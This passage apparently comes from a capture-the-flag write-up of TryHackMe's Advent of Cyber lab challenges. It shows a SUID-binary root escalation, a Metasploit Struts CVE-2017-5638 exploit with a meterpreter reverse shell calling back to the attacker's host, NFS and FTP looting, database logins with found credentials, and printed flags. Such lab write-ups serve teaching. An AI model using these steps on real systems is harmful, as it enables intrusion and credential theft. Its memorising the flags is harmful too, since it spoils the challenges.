-rwsr-xr-x 1 root root 27608 Aug 23  2019 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 Aug 23  2019 /bin/mount
-rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7396/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7396/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7396/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7396/bin/su
-rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7396/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7396/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7396/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7396/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7396/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7396/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /snap/core/7396/usr/bin/sudo
-rwsrwxr-x 1 root root 8880 Dec  7  2019 /usr/bin/system-control
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
holly@ip-10-10-178-163:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: /bin/bash
root@ip-10-10-178-163:~# cat /root/flag2.txt
THM{8c8211826239d849fa8d6df03749c3a2}
root@ip-10-10-178-163:~#
```

`THM{8c8211826239d849fa8d6df03749c3a2}`

4. If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: [https://tryhackme.com/room/privescplayground](https://tryhackme.com/room/privescplayground)

`No answer needed`

## [Day 9] Requests

McSkidy has been going keeping inventory of all the infrastructure but he finds a random web server running on port `3000`. All he receives when accessing '/' is
`{"value":"s","next":"f"}`

McSkidy needs to access the next page at /f(which is the value received from the data above) and keep track of the value at each step(in this case 's'). McSkidy needs to do this until the '`value`' and '`next`' data have the value equal to '`end`'.

You can access the machines at the following IP: `10.10.169.100`

Things to note about this challenge:

- The JSON object retrieved will need to be converted from unicode to ASCII(as shown in the supporting material)
- All the values retrieved until the 'end' will be the flag(end is not included in the flag)

Check out the supporting material [here](https://docs.google.com/document/d/1FyAnxlQpzh0Cy17cKLsUZYCYqUA3eHu2hm0snilaPL0/edit?usp=sharing).

1. What is the value of the flag?

```py
import requests

path    = "/"
host    = "http://10.10.169.100:3000"
values  = []

while path != "/end":
    r = requests.get(host+path)
    json_r = r.json()
    path = "/" + json_r["next"]
    if path != "/end":
        values.append(json_r["value"])

print("".join(values))
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ python3 day9_equests.py
sCrIPtKiDd
```

`sCrIPtKiDd`

## [Day 10] Metasploit-a-ho-ho-ho

_Once deployed, the machine will take 4 to 5 minutes to boot and configure. Please be patient._

Hi Lindsey here. I've been a great Elf all year, but there was one incident and now I think I'm on Santa's naughty list.

What? You didn't think us elves got presents too? Well we do and we get first pick of the pressies!

Can you help me hack into Santa's system that keeps track of the naughty and nice people to see if I am on it?


Check out the [blog post](https://blog.tryhackme.com/metasploit/) shown above to help you on this task.

1. Compromise the web server using Metasploit. What is flag1?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- -oN nmap_10.10.191.224.log 10.10.191.224
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:19 CEST
Nmap scan report for 10.10.191.224
Host is up (0.030s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 55:72:b6:8d:85:1e:b3:76:48:d1:ec:98:ee:fd:62:b6 (RSA)
|   256 e9:63:ce:89:21:bb:ef:10:70:e8:fc:e0:09:01:74:8a (ECDSA)
|_  256 3c:b7:7a:2d:da:bc:9e:01:97:de:70:cb:b9:9a:99:1f (ED25519)
80/tcp    open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-title: Santa Naughty and Nice Tracker
|_Requested resource was showcase.action
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40244/udp   status
|   100024  1          50791/tcp   status
|   100024  1          55243/udp6  status
|_  100024  1          57453/tcp6  status
50791/tcp open  status  1 (RPC #100024)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/1%OT=22%CT=1%CU=41240%PV=Y%DS=2%DC=T%G=Y%TM=5F762BE
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=FF%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   29.52 ms 10.8.0.1
2   29.82 ms 10.10.191.224

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.41 seconds
```

- [Exploiting Apache Struts2 CVE-2017–5638](https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede)
- [](https://www.exploit-db.com/exploits/41570)

`nmap -p 80 --script http-vuln-cve2017-5638 --script-args path=/showcase.action 10.10.191.224`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -p 80 --script http-vuln-cve2017-5638 --script-args path=/showcase.action 10.10.191.224
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:24 CEST
Nmap scan report for 10.10.191.224
Host is up (0.030s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-vuln-cve2017-5638:
|   VULNERABLE:
|   Apache Struts Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-5638
|       Apache Struts 2.3.5 - Struts 2.3.31 and Apache Struts 2.5 - Struts 2.5.10 are vulnerable to a Remote Code Execution
|       vulnerability via the Content-Type header.
|
|     Disclosure date: 2017-03-07
|     References:
|       https://cwiki.apache.org/confluence/display/WW/S2-045
|       http://blog.talosintelligence.com/2017/03/apache-0-day-exploited.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638

Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```

```
msf5 > search Struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   1  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   5  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution
   6  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution


Interact with a module by name or index, for example use 6 or use exploit/multi/http/struts_dev_mode

msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf5 exploit(multi/http/struts2_content_type_ognl) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 10.10.191.224
RHOSTS => 10.10.191.224
msf5 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80


msf5 exploit(multi/http/struts2_content_type_ognl) > search payload/linux/x86/meterpreter

Matching Modules
================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   0   payload/linux/x86/meterpreter/bind_ipv6_tcp                        normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   1   payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   2   payload/linux/x86/meterpreter/bind_nonx_tcp                        normal  No     Linux Mettle x86, Bind TCP Stager
   3   payload/linux/x86/meterpreter/bind_tcp                             normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   4   payload/linux/x86/meterpreter/bind_tcp_uuid                        normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   5   payload/linux/x86/meterpreter/find_tag                             normal  No     Linux Mettle x86, Find Tag Stager
   6   payload/linux/x86/meterpreter/reverse_ipv6_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   7   payload/linux/x86/meterpreter/reverse_nonx_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager
   8   payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
   9   payload/linux/x86/meterpreter/reverse_tcp_uuid                     normal  No     Linux Mettle x86, Reverse TCP Stager
   10  payload/linux/x86/meterpreter_reverse_http                         normal  No     Linux Meterpreter, Reverse HTTP Inline
   11  payload/linux/x86/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   12  payload/linux/x86/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline


Interact with a module by name or index, for example use 12 or use payload/linux/x86/meterpreter_reverse_tcp

msf5 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD payload/linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp

msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.191.224     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /showcase.action  yes       The path to a struts application action
   VHOST                        no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.106.222     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf5 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Sending stage (980808 bytes) to 10.10.191.224
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.191.224:33544) at 2020-10-01 21:45:39 +0200

meterpreter > shell
Process 56 created.
Channel 1 created.

find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
```

```
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

`THM{3ad96bb13ec963a5ca4cb99302b37e12}`

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

```
meterpreter > shell
Process 51 created.
Channel 1 created.
ls /home/
santa
ls /home/santa
ssh-creds.txt
cat /home/santa/ssh-creds.txt
santa:rudolphrednosedreindeer
```

`rudolphrednosedreindeer`

3. Who is on line 148 of the naughty list?

```
[santa@ip-10-10-73-143 ~]$ sed '148!d' naughty_list.txt
Melisa Vanhoose
```

`Melisa Vanhoose`

4. Who is on line 52 of the nice list?

```
[santa@ip-10-10-73-143 ~]$ sed '52!d' nice_list.txt
Lindsey Gaffney
```

`Lindsey Gaffney`

## [Day 11] Elf Applications

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out?

Deploy the machine and starting scanning the IP. **The machine may take a few minutes to boot up**.

Check out the supporting material [here](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#).

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.89.226
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 11:20 CEST
Nmap scan report for 10.10.89.226
Host is up (0.030s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      20048/tcp   mountd
|   100005  1,2,3      20048/tcp6  mountd
|   100005  1,2,3      20048/udp   mountd
|   100005  1,2,3      20048/udp6  mountd
|   100021  1,3,4      38736/udp6  nlockmgr
|   100021  1,3,4      41111/udp   nlockmgr
|   100021  1,3,4      42441/tcp6  nlockmgr
|   100021  1,3,4      46815/tcp   nlockmgr
|   100024  1          39819/tcp   status
|   100024  1          44707/tcp6  status
|   100024  1          53603/udp   status
|   100024  1          57851/udp6  status
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
3306/tcp  open  mysql    MySQL 5.7.28
| mysql-info:
|   Protocol: 10
|   Version: 5.7.28
|   Thread ID: 3
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, ConnectWithDatabase, InteractiveClient, FoundRows, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsCompression, SupportsTransactions, ODBCClient, SwitchToSSLAfterHandshake, Speaks41ProtocolOld, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, LongColumnFlag, LongPassword, Speaks41ProtocolNew, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: \x0B&/\x16\x075V\x01\x08o\x01         .jNZC\x13<
|_  Auth Plugin Name: mysql_native_password
20048/tcp open  mountd   1-3 (RPC #100005)
39819/tcp open  status   1 (RPC #100024)
46815/tcp open  nlockmgr 1-4 (RPC #100021)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/2%OT=21%CT=1%CU=42984%PV=Y%DS=2%DC=T%G=Y%TM=5F76F11
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=FF%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Unix

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   29.84 ms 10.8.0.1
2   30.17 ms 10.10.89.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.64 seconds
```

1. What is the password inside the creds.txt file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ showmount -e 10.10.89.226
Export list for 10.10.89.226:
/opt/files *
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mkdir 10.10.89.226
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mount 10.10.89.226 10.10.89.226/
mount: only root can do that
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo mount 10.10.89.226 10.10.89.226/
mount: /home/kali/CTFs/tryhackme/Advent of Cyber/10.10.89.226: /home/kali/CTFs/tryhackme/Advent of Cyber/10.10.89.226 is not a block device.
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mkdir day11_nfs
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo mount 10.10.89.226:/opt/files day11_nfs
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ls -la day11_nfs/
total 8
drwxrwxrwx 2 kali kali   23 Dec 10  2019 .
drwxr-xr-x 3 kali kali 4096 Oct  2 11:34 ..
-rwxrwxrwx 1 kali kali   34 Dec 10  2019 creds.txt
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat day11_nfs/creds.txt
the password is securepassword123
```

`securepassword123`

2. What is the name of the file running on port 21?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ftp 10.10.89.226
Connected to 10.10.89.226.
220 (vsFTPd 3.0.2)
Name (10.10.89.226:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (514.6748 kB/s)
ftp> exit
221 Goodbye.
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat file.txt
remember to wipe mysql:
root
ff912ABD*
```

`file.txt`

3. What is the password after enumerating the database?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mysql -h 10.10.89.226 -uroot -pff912ABD*
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.030 sec)

MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.030 sec)

MySQL [data]> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.035 sec)

MySQL [data]> exit
Bye
```

## [Day 12] Elfcryption

You think the Christmas Monster is intercepting and reading your messages! Elf Alice has sent you an encrypted message. Its your job to go and decrypt it!

Read the supporting materials [here](https://docs.google.com/document/d/1xUOtEZOTS_L8u_S5Fbs1Wof7mdpWQrj2NkgWLV9tqns/edit?usp=sharing).

1. What is the md5 hashsum of the encrypted note1 file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ md5sum ./tosend/note1.txt.gpg
24cf615e2a4f42718f2ff36b35614f8f  ./tosend/note1.txt.gpg
```

2. Where was elf Bob told to meet Alice?


`gpg key is 25daysofchristmas`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ gpg -d ./tosend/note1.txt.gpg
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
I will meet you outside Santa's Grotto at 5pm!
```

`Santa's Grotto`

3. Decrypt note2 and obtain the flag!


`private password is hello`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ openssl rsautl -decrypt -inkey tosend/private.key -in tosend/note2_encrypted.txt -out tosend/note2_decrypted.txt
Enter pass phrase for tosend/private.key:
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat tosend/note2_decrypted.txt
THM{ed9ccb6802c5d0f905ea747a310bba23}
```

## [Day 13] Accumulate

mcsysadmin has been super excited with their new security role, but wants to learn even more. In an attempt to show their l33t skills, they have found a new box to play with.

This challenge accumulates all the things you've learnt from the previous challenges(that being said, it may be a little more difficult than the previous challenges). Here's the general way to attempt exploitation when just given an IP address:

- Start out with an NMAP scan to see what services are running
- Enumerate these services and try exploit them
- use these exploited services to get an initial access to the host machine
- enumerate the host machine to elevate privileges

Credit to [DarkStar7471](https://tryhackme.com/p/DarkStar7471) for creating this challenge! Not all tasks will include supporting material!

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- -Pn 10.10.168.135
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 15:43 CEST
Nmap scan report for 10.10.168.135
Host is up (0.032s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-02T13:45:10+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-05-21T21:44:38
|_Not valid after:  2020-11-20T21:44:38
|_ssl-date: 2020-10-02T13:45:11+00:00; 0s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   32.47 ms 10.8.0.1
2   33.78 ms 10.10.168.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.74 seconds
```

1. A web server is running on the target. What is the hidden directory which the website lives on?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.168.135/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.168.135/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/02 15:47:47 Starting gobuster
===============================================================
/retro (Status: 301)
Progress: 31163 / 220561 (14.13%)
```

`/retro`

2. Gain initial access and read the contents of user.txt

- [Retro Fanatics](http://10.10.168.135/retro/)
- [Wade](http://10.10.168.135/retro/index.php/author/wade/)


`wade:parzival`



`THM{HACK_PLAYER_ONE}`

3. Optional] Elevate privileges and read the content of root.txt

- [](https://medium.com/@samanthaCTF/tryhackme-advent-of-cyber-day-13-accumulate-dcb079766bc3)


`THM{COIN_OPERATED_EXPLOITATION}`

## [Day 14] Unknown Storage

McElferson opens today's news paper and see's the headline

`Private information leaked from the best festival company`

This shocks her! She calls in her lead security consultant to find out more information about this. How do we not know about our own s3 bucket.

McSkidy's only starting point is a single bucket name: **advent-bucket-one**

Check out the supporting material [here](https://docs.google.com/document/d/13uHBw3L9wdDAFboErSq_QV8omb3yCol0doo6uMGzJWo/edit#).

1. What is the name of the file you found?

- [http://advent-bucket-one.s3.amazonaws.com/](http://advent-bucket-one.s3.amazonaws.com/)

2. What is in the file?

- [http://advent-bucket-one.s3.amazonaws.com/employee_names.txt](http://advent-bucket-one.s3.amazonaws.com/employee_names.txt)

## [Day 15] LFI

Elf Charlie likes to make notes and store them on his server. Are you able to take advantage of this functionality and crack his password?

Read the supporting materials [here](https://blog.tryhackme.com/lfi/).

1. What is Charlie going to book a holiday to?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.89.45
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 20:31 CEST
Nmap scan report for 10.10.89.45
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
